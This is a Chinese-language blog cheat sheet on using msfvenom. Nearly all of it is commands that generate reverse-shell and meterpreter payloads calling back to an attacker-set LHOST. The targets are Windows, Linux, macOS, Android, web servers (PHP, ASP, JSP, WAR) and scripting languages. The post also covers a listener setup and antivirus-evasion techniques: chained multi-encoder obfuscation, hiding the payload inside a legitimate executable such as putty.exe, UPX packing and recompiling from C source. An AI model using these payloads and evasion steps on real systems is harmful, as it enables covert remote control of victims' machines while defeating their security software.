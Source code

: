 ```yaml
---
layout: post
title:  msfvenom 使用
date:   2018-10-19 17:23:03 +0800
img:
description: msfvenom 常用方法，免杀思路
categories: note
---
```


* 目录
{:toc}

## 木马连接方式

- 正向连接(bind)

    是我主动去连接别人机器上的某个端口,很显然,这样极易被对方防火墙拦掉

- 反向连接(reverse)

    是让别人机器上的某个端口上的流量主动连到我机器上的某个端口上,起码暂时对各类应用层防火墙的穿透效果还是蛮不错的

## msfvenom 常用选项

```
-l  列出所有可用的payload,编码器,空指令……
-p  指定要使用的msf的payload,也可以使用自定义payload,几乎是支持全平台的
-f  指定payload输出的文件类型,--help-formats,可查看支持的所有输出格式
-e  指定要使用那种编码器
-i  指定编码的次数,如果使用编码器
-b  指定坏字符,比如空字符截断问题,等等……
-x  使用一个自定义可执行程序模板,并将payload嵌入其中
-k  当模板被执行时,payload自动分离并注入到新的进程中,一般和-x选项一并使用
-o  指定创建好的payload的存放位置
```
## 使用msf创建监听器
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

## 创建Metasploit payload

直接使用msfvenom生成的反弹shell程序一般都会被杀毒软件无情差杀掉
避免被查杀的最普遍方法是编码，简单来说就是改变可执行文件中的代码形状，从而让只识别静态特征码的杀毒软件无法识别，且当木马运行之后，木马会将原始程序解码到内存中，如此木马原来的功能自然也不会受到影响

可以使用`x86/shikata_ga_nai `动态编码器进行混淆，简单单次混淆一般都能被杀毒软件先解码再查杀识别出来，那么尝试使用 **多重编码器多次混淆**
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f raw | msfvenom -e x86/alpha_upper -a x86 --platform windows -i5 -f raw | msfvenom -e x86/shikkata_ga_nai -a x86 --platform windows -i 10 -f raw | msfvenom -e x86/countdown -a x86 --platform windows -i 10 -b '\x00\x0a\xff' -f exe -o shell.exe
```
如果进行多次编码的马儿还是被查杀，可以尝试 **更换可执行文件模板**，重新生成木马
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -x putty.exe -k -i 5 -f exe -o shell.exe
```
发现更换可执行文件模板的马儿依然被查杀，编码和更换模板都行不通，可以试试 **加壳**。软件加壳基本原理就是对可执行文件进行加密压缩，执行之后将代码解压为原始程序，这里分别使用5、9级别upx加壳等级对木马进行加壳
```
upx -5 shell.exe -o upx5_shell.exe
upx -9 shell.exe -o upx9_shell.exe
```
将木马藏在可执行文件里面，文件的md5值会发生改变，杀毒软件将文件与官方原版文件进行对比即可判断是否异常，这里 **换一个不常见的可执行文件模板（可以是自己写的）**
还有可以不直接生成可执行文件，而是 **生成c代码**
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 15 -b '\x00\' -f c -o shell.c
```
利用编译器编译生成可执行文件来绕过杀软



**windows平台**
```
# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o x86_shell.exe
# msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -e cmd/powershell_base64 -i 3 -f raw -o x86_shell.ps1
```

**linux平台**
```
# msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o shell.elf
```

**mac平台**
```
# msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho -o x86_shell.macho
```

**android平台**
```
# msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f apk -o x86_shell.apk
```

**Web Payloads**

**PHP**

msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.php

**ASP**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o shell.asp
```
**JSP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp
```
**WAR**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

**Script Payloads**

**Python**
```
msfvenom -p python/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o rshell.py
```
**Perl**
```
msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -f raw -o shell.pl
```
**Node.js**
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.js
```
**Bash**
```
msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -f raw -o shell.sh
```
**ruby**

```
# msfvenom -p ruby/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o x86_shell.rb
```
**lua**

```
# msfvenom -p cmd/unix/reverse_lua LHOST=<ip> LPORT=<port> -f raw -o x86_shell.lua
```